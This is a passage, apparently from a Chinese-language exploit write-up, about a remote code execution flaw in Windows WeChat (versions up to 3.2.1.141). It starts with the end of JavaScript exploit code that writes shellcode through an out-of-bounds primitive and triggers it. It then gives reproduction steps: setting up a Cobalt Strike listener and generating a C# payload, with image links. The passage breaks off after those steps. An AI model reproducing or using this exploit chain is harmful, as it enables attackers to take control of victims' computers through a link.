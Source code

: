         oob.setBytes(code_addr, shellcode);
    
    
        target_function(0);
    }
    
    
    try{
        print("start running");
        trigger();
    }catch(e){
        print(e);
    }

**0x01漏洞介绍**

攻击者可以通过在网页js插入攻击代码，用户一旦点击链接，Windows版微信便会加载执行攻击者构造恶意代码，最终使攻击者控制用户PC。

攻击者可以利用此漏洞执行任意代码，控制用户PC，存在极大的危害。

**0x02影响版本**

Windows版微信: 小于等于3.2.1.141版本

**0x03漏洞复现**

1、搭建cs，设置一个http或https的监听器

![](chrome(%E6%9C%80%E6%96%B0%E7%89%88%E5%8F%AF%E7%94%A8)%200day%E4%B8%8A%E7%BA%BFcs%20%26%20wx%200day%E4%B8%8A%E7%BA%BF/10_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

2、生成payload，选择上一步的监听器，输出选择C#，我这里就不勾选x64了，点击生成，将生成的文件保存到桌面。

![](chrome(%E6%9C%80%E6%96%B0%E7%89%88%E5%8F%AF%E7%94%A8)%200day%E4%B8%8A%E7%BA%BFcs%20%26%20wx%200day%E4%B8%8A%E7%BA%BF/11_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)
